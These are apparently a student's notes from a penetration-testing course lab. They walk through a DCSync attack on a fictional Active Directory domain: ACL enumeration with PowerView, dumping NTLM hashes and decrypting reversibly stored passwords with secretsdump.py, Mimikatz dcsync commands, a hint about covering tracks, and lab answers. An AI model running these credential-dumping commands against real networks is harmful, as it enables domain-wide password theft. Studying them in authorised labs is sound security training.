- Based on our work in the previous section, we now have control over the **user `adunn` who has DCSync privileges in the INLANEFREIGHT.LOCAL** domain.
# What is DCSync and How Does it Work?
---
- DCSync is a **technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`**, which is used by Domain Controllers to **replicate domain data.**
- This allows **an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.**
- The **==crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right.==**
- To perform this attack, **you must have control over an account that has the rights to perform domain replication** (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set).
- **==Domain/Enterprise Admins and default domain administrators have this right by default.==**
- It is common during an assessment to **find other accounts that have these rights**, and once compromised, their access can be **utilized to retrieve the current NTLM password hash for any domain user**.

## Using Get-DomainUser to View adunn's Group Membership
- `. .\PowerView.ps1`
- `Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol | fl`
- ![[Pasted image 20250812000858.png]]
- We first **get the user's SID in the above command and then check all ACLs set on the domain object** (`"DC=inlanefreight,DC=local"`) **using [Get-ObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/) to get the ACLs associated with the object**.

## Using Get-ObjectAcl to Check adunn's Replication Rights
- `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"`
- `Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`
- ![[Pasted image 20250812001017.png]]
- If we had **certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl))**, we **could also add this privilege to a user under our control, execute the DCSync attack**, and then remove the privileges to attempt to cover our tracks.
- **==DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py==**. Let's see a few quick examples.

## Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
- `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 `
	- The **`-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys** from the NTDS file.
	- Other useful options **include `-pwd-last-set` to see when each account's password was last changed** and **`-history` if we want to dump password history**
	- The **`-user-status` is another helpful flag to check and see if a user is disabled.**
	- Providing **our client with password cracking statistics** to ensure that data such as:
		- Number and % of passwords cracked
		- top 10 passwords
		- Password length metrics
		- Password re-use
## Viewing an Account with Reversible Encryption Password Storage Set
- When this option is set on a user account, **it does not mean that the passwords are stored in cleartext.**
- Instead, they are ==**stored using RC4 encryption.**==
- The trick here is that the **==key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.==**
- Tools such as **`secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file** either as a Domain Admin **or using an attack such as DCSync.**
- If this setting is disabled on an account, a user will need to change their password for it to be stored using one-way encryption

- Enumerating Further using Get-ADUser:
	- `Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl`
	- We can see that one account, **`proxyagent`, has the reversible encryption option set with PowerView as well:**
	- `Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol`
	- ![[Pasted image 20250812001630.png]]
	- We will notice the **tool decrypted the password and provided us with the cleartext value.**
- Displaying the Decrypted Password:
	- `cat inlanefreight_hashes.ntds.cleartext `

## Using Mimikatz
- We can perform the attack with **Mimikatz as well.** Using Mimikatz, **we must target a specific user.** 
- Also it is important to **==note that Mimikatz must be ran in the context of the user who has DCSync privileges==**. 
- We can **utilize `runas.exe` to accomplish** this:
	- `runas /netonly /user:INLANEFREIGHT\adunn powershell`
	- `.\mimikatz.exe`
	- `privilege::debug`
	- `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`

# LABS
---
=>  Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer. 
- `Get-ADUser -Filter {AllowReversiblePasswordEncryption -eq "true"} | Select Name, sAMAccountName`
	- `syncron`

=> What is this user's cleartext password? 
- `proxychains impacket-secretsdump -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -just-dc-user syncron`
	- ![[Pasted image 20250812012847.png]]